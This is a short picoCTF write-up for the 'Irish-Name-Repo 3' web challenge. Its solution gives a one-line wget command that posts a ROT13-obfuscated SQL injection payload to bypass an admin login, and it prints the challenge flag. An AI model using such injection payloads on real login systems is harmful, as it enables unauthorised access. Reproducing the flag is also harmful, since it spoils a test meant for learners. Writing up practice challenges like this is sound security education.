


# Irish-Name-Repo 3
### Points: 400

## Category
#### Web Exploitation

## Question
#### There is a secure website running at https://jupiter.challenges.picoctf.org/problem/29132/ [(link)](https://jupiter.challenges.picoctf.org/problem/29132/) or http://jupiter.challenges.picoctf.org:29132. Try to see if you can login as admin!
### Hint
>#### Seems like the password is encrypted.

 
## Solution
#### Look at this website main page http://mercury.picoctf.net:8650/

#### Open a terminal on Kali Linux and type this command : `wget <loging page url> --post-data="debug=1&password=a'be'1'='1"`

#### type this command : `cat login.php` and retrieve the flag. 

## Flag
`picoCTF{3v3n_m0r3_SQL_06a9db19}`